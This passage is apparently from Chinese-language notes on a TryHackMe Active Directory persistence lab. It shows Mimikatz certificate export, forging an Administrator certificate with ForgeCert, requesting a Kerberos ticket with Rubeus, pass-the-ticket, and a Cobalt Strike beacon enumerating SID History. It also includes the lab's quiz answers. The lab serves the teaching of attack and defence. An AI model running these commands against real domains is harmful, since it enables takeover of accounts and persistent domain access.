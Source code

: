 导出证书
```
mimikatz # crypto::certificates /systemstore:local_machine /export
```

生成我们自己的证书,使用[ForgeCert](https://github.com/GhostPack/ForgeCert)
```
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```

参数说明：

CaCertPath - 我们导出的 CA 证书的路径。
CaCertPassword - 用于加密证书的密码。默认情况下，Mimikatz 分配的密码为mimikatz.
主题- 证书的主题或通用名称。这在我们将使用证书的上下文中并不重要。
SubjectAltName - 这是我们要使用此证书模拟的帐户的用户主体名称 (UPN)。它必须是合法用户。
NewCertPath - ForgeCert 将存储生成的证书的路径。
NewCertPassword - 由于证书需要导出用于身份验证的私钥，因此我们必须设置用于加密的新密码。


使用 Rubeus 请求使用证书的TGT

```
C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.88.101
```

使用mimikatz ptt
```
kerberos::ptt administrator.kirbi
```

> What key is used to sign certificates to prove their authenticity?

> private key

> What application can we use to forge a certificate if we have the CA certificate and private key?

> ForgeCert.exe

> What is the Mimikatz command to pass a ticket from a file with the name of ticket.kirbi?

> kerberos::ptt ticket.kirbi


# Task 5  Persistence through SID History


枚举分配的低权限用户有没有 SID History
```
beacon> powershell Get-ADUser louis.cole -properties sidhistory,memberof
[*] Tasked beacon to run: Get-ADUser louis.cole -properties sidhistory,memberof
[+] host called home, sent: 413 bytes
[+] received output:
#< CLIXML


DistinguishedName : CN=louis.cole,OU=Consulting,OU=People,DC=za,DC=tryhackme,DC=loc
Enabled           : True
GivenName         : Louis
MemberOf          : {CN=Internet Access,OU=Groups,DC=za,DC=tryhackme,DC=loc}
Name              : louis.cole
ObjectClass       : user
ObjectGUID        : bf78bdb9-3289-461d-8193-d7fd88d3b23b
SamAccountName    : louis.cole
SID               : S-1-5-21-3885271727-2693558621-2658995185-1120
SIDHistory        : {}
Surname           : Cole
UserPrincipalName : 
```